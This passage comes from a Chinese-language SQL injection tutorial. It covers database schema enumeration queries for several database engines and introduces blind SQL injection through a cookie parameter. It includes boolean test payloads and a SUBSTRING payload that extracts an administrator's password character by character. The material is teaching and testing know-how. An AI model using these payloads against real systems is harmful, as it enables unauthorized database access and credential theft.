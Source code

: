 | Oracle     | `SELECT * FROM all_tables         SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT * FROM information_schema.tables        SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables         SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tables         SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

#### 列出数据库内容

除Oracle数据库，都有一组成为information schema的视图，用于提供数据库信息。

```sql
SELECT * FROM information_schema.tables
```

返回如下所示的输出

![image-20220114225259872](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220114225259872.png)

表示有三个表，同时可以查询各列信息

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

![image-20220114225404909](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220114225404909.png)返回表中的各列及类型

### 5.盲注

SQL盲注是指应用程序容易受到SQL注入的攻击，但HTTP响应不包含相关SQL查询结果或任何数据信息。

对于盲注，许多注入技巧失效（如UNION)。

#### 通过触发条件响应使用SQL盲注

当网站应用程序交互使用Cookie时，

```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

当处理包含Cookie的请求时，应用程序会使用SQL语句查询是否存在用户

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

此时可能存在SQL注入，查询的结果不会返回给用户，但网站的响应可能存在不同。

可以使用类似注入语句

```sql
…xyz' AND '1'='1
…xyz' AND '1'='2
```

假设存在一个username和password的username表，可以构造为

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
